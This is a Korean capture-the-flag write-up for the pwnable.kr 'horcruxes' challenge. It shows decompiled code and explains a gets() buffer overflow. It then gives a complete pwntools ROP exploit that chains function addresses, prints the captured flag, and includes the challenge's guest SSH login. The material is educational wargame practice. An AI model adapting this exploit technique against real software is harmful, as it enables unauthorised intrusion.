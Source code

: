 # 문제
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi

ssh horcruxes@pwnable.kr -p2222 (pw:guest)

---  
# 개요  
ROP 문제라고 대 놓고 문제에서 알려주네요 우선 바이너리를 가져와봅시다.  
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ST18_4@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  alarm(0x3Cu);
  hint();
  init_ABCDEFG();
  v3 = seccomp_init(0);
  seccomp_rule_add(v3, 2147418112, 173, 0);
  seccomp_rule_add(v3, 2147418112, 5, 0);
  seccomp_rule_add(v3, 2147418112, 3, 0);
  seccomp_rule_add(v3, 2147418112, 4, 0);
  seccomp_rule_add(v3, 2147418112, 252, 0);
  seccomp_load(v3);
  return ropme();
}
```
위의 코드는 IDA를 통해 본 main 루틴입니다.

여기서 중요한 함수는 init_ABCDEFG()함수와 rompe() 함수입니다.

```c
unsigned int init_ABCDEFG()
{
  int v0; // eax@4
  unsigned int result; // eax@4
  unsigned int buf; // [sp+8h] [bp-10h]@1
  int fd; // [sp+Ch] [bp-Ch]@1

  fd = open("/dev/urandom", 0);
  if ( read(fd, &buf, 4u) != 4 )
  {
    puts("/dev/urandom error");
    exit(0);
  }
  close(fd);
  srand(buf);
  a = 0xDEADBEEF * rand() % 0xCAFEBABE;
  b = 0xDEADBEEF * rand() % 0xCAFEBABE;
  c = 0xDEADBEEF * rand() % 0xCAFEBABE;
  d = 0xDEADBEEF * rand() % 0xCAFEBABE;
  e = 0xDEADBEEF * rand() % 0xCAFEBABE;
  f = 0xDEADBEEF * rand() % 0xCAFEBABE;
  v0 = rand();
  g = 0xDEADBEEF * v0 % 0xCAFEBABE;
  result = f + e + d + c + b + a + 0xDEADBEEF * v0 % 0xCAFEBABE;
  sum = result;
  return result;

```
urandom을 시드로 a~g 변수를 각각 랜덤하게 생성합니다.
result 변수에는 a~g 변수의 합이 저장됩니다.

이후 이 값은 rompe() 함수에서 씁니다.
```c
printf("Select Menu:");
__isoc99_scanf("%d", &v2);
getchar();
if ( v2 == a )
{
  A();
}
else if ( v2 == b )
{
  B();
}
else if ( v2 == c )
{
  C();
}
else if ( v2 == d )
{
  D();
}
else if ( v2 == e )
{
  E();
}
else if ( v2 == f )
{
  F();
}
else if ( v2 == g )
{
  G();
}
```
v2 == a 를 보고 0xa인줄 알고 괜한 삽질을 했습니다. 아무래도 전역변수 같습니다.

```c
else
{
  printf("How many EXP did you earned? : ");
  gets(s);
  if ( atoi(s) == sum )
  {
    fd = open("flag", 0);
    s[read(fd, s, 0x64u)] = 0;
    puts(s);
    close(fd);
    exit(0);
  }
  puts("You'd better get more experience to kill Voldemort");
}
return 0;
```
G까지 모두 틀리면 위의 루틴을 만나게 됩니다. gets로 입력을 받고 그 값이
a~g 합과 같다면 플래그를 출력합니다.

gets함수를 사용하므로 ret를 덮어서 A() 함수부터 G() 함수까지 차례대로 호출하여 EXP를 파싱하고 더한 후 rompe() 함수를 호출하여 값을 넣어주면 플래그를 출력할 것 같습니다.

```python
from pwn import*

p = remote(0,9032)

print p.recvuntil("Select Menu:")
p.sendline("0")

print p.recvuntil("How many EXP did you earned? : ")

payload = "A"*120
payload += "\x4b\xfe\x09\x08" #a
payload += "\x6a\xfe\x09\x08" #b
payload += "\x89\xfe\x09\x08" #c
payload += "\xa8\xfe\x09\x08" #d
payload += "\xc7\xfe\x09\x08" #e
payload += "\xe6\xfe\x09\x08" #f
payload += "\x05\xff\x09\x08" #g
payload += "\xfc\xff\x09\x08" #rompe

p.sendline(payload)

sum = 0

for i in range(0, 7):
  p.recvuntil('EXP +')
  sum = sum + int(p.recvuntil(')')[:-1])
  print sum

print p.recvuntil("Select Menu:")
p.sendline("0")

print p.recvuntil("How many EXP did you earned? : ")
p.sendline(str(sum))

print p.interactive()
```
```
horcruxes@ubuntu:/tmp$ python exp.py
[+] Opening connection to localhost on port 9032: Done
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:
How many EXP did you earned? :
454574208
-549777161
-1673475767
-1085042747
349691327
777050481
-1270876098

Select Menu:
How many EXP did you earned? :
[*] Switching to interactive mode
Magic_spell_1s_4vad4_K3daVr4!
```


```

